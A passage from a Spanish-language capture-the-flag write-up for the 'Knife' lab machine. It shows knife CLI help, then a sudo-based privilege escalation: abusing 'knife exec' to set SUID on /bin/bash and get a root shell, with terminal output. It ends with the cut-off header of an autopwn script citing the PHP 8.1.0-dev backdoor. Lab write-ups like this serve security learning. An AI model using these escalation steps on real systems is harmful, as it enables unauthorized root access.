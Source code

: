 ```bash
    -e, --editor EDITOR              Set the editor to use for interactive commands.
        --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
    -E, --exec CODE                  A string of Chef Infra Client code to execute.
        --[no-]fips                  Enable FIPS mode.
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -p, --script-path PATH:PATH      A colon-separated path to look for scripts in.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.
```

Aprendiendo como funciona este binario en este [post](https://runebook.dev/en/docs/chef/knife_exec/index) , interpreta código en lenguaje ruby, así que podemos inyectar un comando en Ruby como el usuario root:

Una de las muchas formas de las que podemos escalar privilegios seria otorgando el privilegio SUID a la /bin/bash de tal forma que ejecutando  `bash -p` lo ejecutaríamos como el usuario root y nos otorgaría una shell como él mismo

```bash
james@knife:/$ $ sudo /usr/bin/knife exec -E 'exec "whoami"'
sudo /usr/bin/knife exec -E 'exec "whoami"'
root
james@knife:/$ $ ls -la /bin/bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
james@knife:/$ $ sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'
sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'
james@knife:/$ $ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
james@knife:/$ $ bash -p
bash -p
$ whoami
root
$ cat /root/root.txt
a79cadff9e6c15242493c8a-------
```

Script Autopwn para ganar acceso como root:

```python
#!/usr/bin/python3

# Title : Autopwn Knife
# Date: 26/08/21
# Exploit Author: tukutu (H4ckBl0g)
# Version PHP: 8.1.0-dev
# CVE : N/A
# References:
#     - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#     - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md
#Uso: python3 autopwn_knife.py <LHOST> <URL>
#Ejemplo: python3 autopwn_knife.py 10.10.16.198 http://10.10.10.242/

import sys
```